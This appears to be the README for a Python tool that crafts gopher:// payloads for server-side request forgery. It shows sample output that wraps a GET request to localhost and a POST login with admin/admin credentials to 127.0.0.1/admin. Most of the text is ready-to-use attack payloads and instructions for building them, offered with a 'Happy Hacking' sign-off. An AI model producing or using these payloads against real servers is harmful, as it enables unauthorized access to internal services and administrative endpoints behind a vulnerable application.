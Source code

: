 Gopher HTTP requests (POST/GET) | By: Liquidsky

URL: gopher: // <host>:<port>/<gopher-path>_ followed by TCP data stream

Tip for determing POST request length:

└─$ echo "username=admin&password=admin" | wc -c 
 
 30
 
 Subtract 1 from this result. = 29 -> Then add this to content length header.

Example output:

└─$ python3 gopher-requests.py

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 1

[x] Gopher GET Request: 
gopher://localhost:80/_GET%20/%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0A

[*] Happy Hacking ^_~

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 2

[?] Informational: The four HTTP headers above are required for POST requests, namely POST, Host, Content-Type and Content-Length. If it is missing, an error will be reported, but GET does not use it.

[x] Gopher POST Request: 
gopher://127.0.0.1:80/_POST%20/admin%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2029%0D%0A%0D%0Ausername%3Dadmin%26password%3Dadmin%0D%0A

[*] Happy Hacking ^_~

